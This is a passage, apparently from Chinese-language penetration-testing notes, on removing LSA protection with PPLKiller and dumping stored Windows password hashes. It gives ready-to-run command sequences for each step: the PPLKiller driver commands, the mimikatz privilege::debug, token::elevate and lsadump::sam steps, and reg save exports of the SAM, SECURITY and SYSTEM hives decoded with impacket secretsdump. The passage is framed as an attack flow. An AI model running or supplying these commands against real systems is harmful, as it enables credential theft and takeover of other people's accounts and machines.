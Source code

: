 ```
2. PPLKiller

https://github.com/RedCursorSecurityConsulting/PPLKiller

PPLKiller.exe /installDriver
PPLKiller.exe /disableLSAProtection
```

### <span style="color:#F98B26">2.2.1.3 查看本地存储的所有密码</span>

```
SAM是管理所有用户账号及其密码的安全账户管理器的缩写.
它充当数据库.
所有密码都经过哈希处理,然后存储为SAM.
LSA负责通过将密码与SAM中维护的数据库进行匹配来验证用户登录.

Windows启动后,SAM即开始在后台运行.
SAM位于C:\Windows\System32\config 中,散列并保存在SAM中的密码可以在注册表中找到,只需打开注册表编辑器并导航到
HKEY_LOCAL_MACHINE\SAM即可.
```

```
1. mimikatz

要想从SECURITY 和SAM配置单元文件中获得凭据,
可以使用mimikatz从内存中读取它们.

首先,执行token::elevate获得一个SYSTEM会话,
这样就可以读取凭据了.

如果需要的话,还要执行privilege::debug 命令来授予SeDebugPrivilege权限.

攻击流程:

mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
```

```
2. Reg save命令

https://www.praetorian.com/blog/how-to-detect-and-dump-credentials-from-the-windows-registry/
https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets

首先,需要转储注册表的配置单元.
为此,需要借助于SECURITY和SAM配置单元以及SYSTEM配置单元,
因为其中包含系统Boot Key (或System Key),可用于解密SECURITY和SAM配置单元

reg save HKLM\SYSTEM system.bin
reg save HKLM\SECURITY security.bin
reg save HKLM\SAM sam.bin

使用secretsdump进行转储:

python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bin -system system.bin -security security.bin LOCAL
```
